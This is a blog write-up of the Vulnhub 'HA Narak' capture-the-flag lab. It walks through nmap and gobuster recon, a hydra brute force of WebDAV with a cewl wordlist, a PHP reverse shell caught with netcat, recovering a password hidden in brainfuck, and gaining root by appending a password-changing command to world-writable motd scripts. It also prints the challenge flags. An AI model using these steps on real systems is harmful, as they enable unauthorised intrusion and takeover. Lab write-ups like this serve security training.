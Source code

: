 ```yaml
---
title: Vulnhub - HA Narak
description: My writeup on HA Narak box.
categories:
 - vulnhub
tags: vulnhub webdav cewl hydra motd brainfuck
---
```


![](https://truthstar-tgt5cps4e32fytbrgae.netdna-ssl.com/wp-content/uploads/2015/11/Narak-Chaturdashi.jpg)

You can find the machine there > [HA Narak](https://www.vulnhub.com/entry/ha-narak,569/){:target="_blank"}

## Summary

This was a pretty interesting box, we start off by generating a wordlist using cewl and then brute force webdav this will give us shell as www-data. We find a bash script with brainfuck langauge in it we decode it and we get inferno password. Privesc to root is MOTD exploitation. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.16
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:53 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:04:4D:75 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:53 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:59:2d:22:1e:b3:6b:4f:06:bf:83:e1:cc:92:43 (RSA)
|   256 f8:ec:45:84:7f:29:33:b2:8d:fc:7d:07:28:93:31:b0 (ECDSA)
|_  256 d0:94:36:96:04:80:33:10:40:68:32:21:cb:ae:68:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: NARAK
```

Let's start the enumeration on port 80 with a `gobuster` scan:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/images (Status: 301)
/index.html (Status: 200)
/tips.txt (Status: 200)
/webdav (Status: 401)
/server-status (Status: 403)
```

`/tips.txt` says this message: `Hint to open the door of narak can be found in creds.txt.` probably this will be useful later on privesc because now there is no `creds.txt`

`/webdav` asks for creds:

![](https://i.imgur.com/5caa2BW.png)

Because i have experience with HA series their boxes require `cewl` lot of times, so let's generate a custom wordlist with `cewl` and do a brute force with hydra:

```
$ cewl http://$ip/ -w wordlist.txt
$ hydra -L wordlist.txt -P wordlist.txt $ip http-get /webdav

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-29 11:33:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 6724 login tries (l:82/p:82), ~421 tries per task
[DATA] attacking http-get://192.168.1.16:80/webdav
[80][http-get] host: 192.168.1.16   login: yamdoot   password: Swarg
```

## Shell as www-data

Perfect, a few words about the webdav. 

WebDAV is an extension of the HTTP protocol that allow users to upload,download files on the apache server. I always like to use `Cadaver` as WebDAV client. Let's login and upload our shell.

```
$ cadaver http://$ip/webdav
Authentication required for webdav on server `192.168.1.16':
Username: yamdoot
Password: 
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 5494 bytes succeeded.
dav:/webdav/> exit
Connection to `192.168.1.16' closed.
```

Let's execute it and get shell:

```
$ curl --digest --user 'yamdoot:Swarg' http://$ip/webdav/shell.php
```

```
$ nc -lvp 5555                                                  
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as inferno

Let's search now the for `creds.txt` file:

```
www-data@ubuntu:/$ find / -name "creds.txt" 2>/dev/null
/mnt/karma/creds.txt
```

If we base64 decoded we can see the creds we found before:

```
www-data@ubuntu:/$ base64 -d /mnt/karma/creds.txt
yamdoot:Swarg
```

If we move now to `/mnt` we can find a bash script with brainfuck language in:

```
www-data@ubuntu:/mnt$ cat hell.sh
#!/bin/bash

echo"Highway to Hell";
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
```

Brainfuck is an esoteric programming language, let's use this [decoder](https://www.splitbrain.org/_static/ook/){:target="_blank"} & we got a password! `chitragupt`
This password works with user `inferno` we can use SSH now to login in.

```
$ ssh inferno@$ip

inferno@ubuntu:~$ whoami;id
inferno
uid=1002(inferno) gid=1002(inferno) groups=1002(inferno)
```

## Shell as root

Under `.cache` folder i found a motd file, that's a hint for privesc:

```
inferno@ubuntu:~$ cd .cache/
inferno@ubuntu:~/.cache$ ls -la
total 8
drwx------ 2 inferno inferno 4096 Sep 29 01:59 .
drwxr-xr-x 3 inferno inferno 4096 Sep 29 01:59 ..
-rw-r--r-- 1 inferno inferno    0 Sep 29 01:59 motd.legal-displayed
```

If we go to `update-motd.d` directory we can see that all files are writable. So let's simply add a command that changes root password & login in again.

```
inferno@ubuntu:~/.cache$ cd /etc/update-motd.d/
inferno@ubuntu:/etc/update-motd.d$ ls -la
total 36
drwxrwxrwx  2 root root 4096 Sep 21 09:57 .
drwxr-xr-x 80 root root 4096 Sep 22 05:14 ..
-rwxrwxrwx  1 root root 1220 Apr  9  2018 00-header
-rwxrwxrwx  1 root root 1157 Apr  9  2018 10-help-text
-rwxrwxrwx  1 root root 4251 Apr  9  2018 50-motd-news
-rwxrwxrwx  1 root root  604 Mar 21  2018 80-esm
-rwxrwxrwx  1 root root 3017 Mar 21  2018 80-livepatch
-rwxrwxrwx  1 root root  299 May 18  2017 91-release-upgrade
```

```
inferno@ubuntu:/etc/update-motd.d$ echo "echo 'root:pwned' | sudo chpasswd" >> 00-header 
inferno@ubuntu:/etc/update-motd.d$ exit
logout
Connection to 192.168.1.16 closed.
$ ssh inferno@$ip

inferno@ubuntu:~$ su - root
Password: 
root@ubuntu:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read that flags:

```
root@ubuntu:~# cat root.txt 
██████████████████████████████████████████████████████████████████████████████████████████
█░░░░░░██████████░░░░░░█░░░░░░░░░░░░░░█░░░░░░░░░░░░░░░░███░░░░░░░░░░░░░░█░░░░░░██░░░░░░░░█
█░░▄▀░░░░░░░░░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░▄▀▄▀▄▀▄▀▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░░░░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░████░░▄▀░░███░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░░░▄▀░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀▄▀░░███░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀▄▀▄▀▄▀▄▀░░███
█░░▄▀░░██░░▄▀░░██░░▄▀░░█░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░░░███░░▄▀░░░░░░▄▀░░█░░▄▀░░░░░░▄▀░░███
█░░▄▀░░██░░▄▀░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░█████░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░███
█░░▄▀░░██░░▄▀▄▀▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀░░░░█
█░░▄▀░░██░░░░░░░░░░▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀▄▀░░█░░▄▀░░██░░▄▀░░█░░▄▀░░██░░▄▀▄▀░░█
█░░░░░░██████████░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░░░█░░░░░░██░░░░░░█░░░░░░██░░░░░░░░█
██████████████████████████████████████████████████████████████████████████████████████████
                           
                                                                                    
Root Flag: {9440aee508b6215995219c58c8ba4b45}						

!! Congrats you have finished this task !!
							
Contact us here:					
								
Hacking Articles : https://twitter.com/hackinarticles

Jeenali Kothari  : https://www.linkedin.com/in/jeenali-kothari/	
																
+-+-+-+-+-+ +-+-+-+-+-+-+-+					
 |E|n|j|o|y| |H|A|C|K|I|N|G|			
 +-+-+-+-+-+ +-+-+-+-+-+-+-+						
__________________________________

root@ubuntu:~# cat /home/inferno/user.txt 
Flag: {5f95bf06ce19af69bfa5e53f797ce6e2}
```

Awesome box! :smile:

